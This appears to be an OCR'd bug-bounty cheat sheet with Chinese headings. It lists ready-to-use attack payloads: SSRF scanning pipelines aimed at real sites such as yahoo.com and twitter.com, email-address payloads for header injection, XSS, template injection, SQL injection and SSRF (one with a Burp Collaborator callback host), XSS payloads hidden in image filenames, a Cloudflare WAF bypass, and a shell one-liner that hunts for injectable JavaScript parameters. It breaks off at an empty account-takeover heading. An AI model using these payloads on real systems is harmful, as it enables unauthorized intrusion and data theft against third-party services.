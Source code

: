 ### **使用此工具的最佳 SSRF 技巧：**

$ amass enum \-passive \-brute \-d yahoo.com \-silent | httpx \-silent | tee domains.txt | ssrf-tool \-domains domains.txt \-payloads payloads.txt \-silent=false \-paths=true \-patterns patterns.txt  
$ echo "twitter.com" | gauplus \-random-agent \-t 100 | tee domains.txt; ssrftool \-domains domains.txt \-silent=false \-paths=false \-payloads payloads.txt  
---

### **电子邮件攻击：**

// \*\*Header Injection\*\*  
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com  
"recipient@test.com\>\\r\\nRCPT TO:\<victim+"@test.com  
// \*\*XSS Injection\*\*  
test+(\<script\>alert(0)\</script\>)@example.com  
test@example(\<script\>alert(0)\</script\>).com  
"\<script\>alert(0)\</script\>"@example.com  
// \*\*SST Injection\*\*  
"\<%= 7 \* 7 %\>"@example.com  
test+(${{7\*7}})@example.com  
// \*\*SQL Injection\*\*  
"' OR 1=1 \-- '"@example.com  
"mail'); SLEEP(5);--"@example.com  
// \*\*SSRF Attack\*\*  
john.doe@abc123.burpcollaborator.net  
john.doe@\[127.0.0.1\]  
---

### **图像的 XSS 负载**

\<img src=x onerror=alert('XSS')\>.png  
"\>\<img src=x onerror=alert('XSS')\>.png  
"\>\<svg onmouseover=alert(1)\>.svg  
\<\<script\>alert('xss')\<\!--a--\>a.png  
---

### **使用默认规则绕过 CLOUDFLARE 的 XSS**

"/\>\<svg+svg+svg\\/\\/On+OnLoAd=confirm(1)\>  
---

### **在 javascript 文件中查找隐藏的参数：**

$ amass enum \-passive \-brute \-d redacted.com | gau | egrep \-v '(.css|.svg)' | while read url; do vars=$(curl \-s $url | grep \-Eo "var \[a-zA-Z0-9\]+" | sed \-e 's,'var','"$url"?',g' \-e 's/ //g' | grep \-v '.js' | sed 's/.\*/&=xss/g'); echo \-e "\\e\[1;33m$url\\n\\e\[1;32m$vars"; done  
---

### **IDOR 快速实现账户接管：**


[image1]: https://user-images.githubusercontent.com/81621963/147457586-79ac41eb-f995-455b-a144-f80a5783047a.PNG
[image2]: https://camo.githubusercontent.com/8ca6cbc30815bc3ef458755d26604c424652dc18a51df3b3d708126667c31c91/68747470733a2f2f63646e2e6275796d6561636f666665652e636f6d2f627574746f6e732f76322f64656661756c742d7265642e706e67 